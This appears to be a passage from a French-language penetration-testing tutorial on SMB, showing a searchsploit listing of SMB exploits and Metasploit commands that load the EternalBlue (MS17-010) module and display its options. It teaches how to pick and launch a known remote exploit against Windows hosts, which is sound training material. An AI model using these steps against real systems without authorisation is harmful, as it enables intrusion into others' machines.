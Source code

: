 ```bash
Microsoft Windows NT 4.0 SP5 / Terminal Server 4.0 - | windows/remote/19197.txt
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaT | windows_x86-64/remote/41987.py
Microsoft Windows SMB Server (v1/v2) - Mount Point A | windows/dos/43517.txt
Microsoft Windows Vista/7 - SMB2.0 Negotiate Protoco | windows/dos/9594.txt
Microsoft Windows XP/2000 - 'Mrxsmb.sys' Local Privi | windows/local/1911.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Pro | windows/dos/21746.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Pro | windows/dos/21747.txt
MikroTik RouterOS < 6.41.3/6.42rc27 - SMB Buffer Ove | hardware/remote/44290.py
Netware - SMB Remote Stack Overflow (PoC)            | novell/dos/13906.txt
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer O | multiple/dos/5712.pl
Samsung SyncThruWeb 2.01.00.26 - SMB Hash Disclosure | hardware/webapps/38004.txt
SmbClientParser 2.7 Perl Module - Remote Command Exe | multiple/remote/32084.txt
smbftpd 0.96 - SMBDirList-function Remote Format Str | linux/remote/4478.c
smbind 0.4.7 - SQL Injection                         | php/webapps/14884.txt
SMBlog 1.2 - Arbitrary PHP Command Execution         | php/webapps/27340.txt
SQL-Ledger 2.6.x/LedgerSMB 1.0 - 'Terminal' Director | cgi/webapps/28514.txt
VideoLAN VLC Client (Windows x86) - 'smb://' URI Buf | windows_x86/local/16678.rb
VideoLAN VLC Media Player 0.8.6f - 'smb://' URI Hand | windows/remote/9303.c
VideoLAN VLC Media Player 0.8.6f - 'smb://' URI Hand | windows/remote/9318.py
VideoLAN VLC Media Player 0.9.9 - 'smb://' URI Stack | windows/dos/9029.rb
VideoLAN VLC Media Player 1.0.0/1.0.1 - 'smb://' URI | windows/dos/9427.py
VideoLAN VLC Media Player 1.0.2 - 'smb://' URI Stack | windows/remote/9816.py
VideoLAN VLC Media Player 1.0.3 - 'smb://' URI Handl | windows/dos/10333.py
VideoLAN VLC Media Player < 1.1.4 - '.xspf smb://' U | windows/dos/14892.py
Visale 1.0 - 'pblsmb.cgi?listno' Cross-Site Scriptin | cgi/webapps/27681.txt
ZYXEL Router 3.40 Zynos - SMB Data Handling Denial o | hardware/dos/29767.txt
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

L'exploit le plus utilisé est celui de EthernalBlue

- Utilisation de l'exploit EternalBlue

```bash
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-
                                             framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only 
                                             affects Windows Server 2008 R2, Windows 7, Windows Embedded 
                                             Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
                                             Only affects Windows Server 2008 R2, Windows 7, Windows Embedded 
                                             Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows 
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target 
                                             machines.
<output omitted for brevity>
```